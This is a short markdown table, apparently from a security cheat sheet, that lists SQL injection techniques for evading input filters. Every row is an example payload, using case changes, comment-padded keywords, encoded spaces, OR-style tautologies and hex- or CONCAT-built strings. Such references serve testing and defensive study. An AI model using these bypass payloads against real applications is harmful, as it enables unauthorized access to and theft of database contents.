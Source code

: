 | Scenario | Description | Example |
| -------- | ----------- | ------- |
| Basic keyword | Change case or add inline comments | `SEleCT * fRoM Users or SE/**/LECT * FR/**/OM/**/users` |
| Space filter | Use alternative characters or comments | `SELECT%0A*%0AFROM%0AUsers or SELECT/**/*/**/FROM/**/Users` |
| Logical Operators | Alternative logical operators | `username='admin' && password = 'password' or username = 'admin'/**/||/**/1=1 --` |
| Union / Select | Hex representations | `SELECT * FROM users WHERE username = CHAR(0x61,0x64,0x6D,0x69,0x6E)
| All the above | Mix it up with a bit of everything | `SeLeCT/**/* FROM users WHERE username = CONCAT('a','d','m','i','n') or select/**/username/**/from/**/users`|


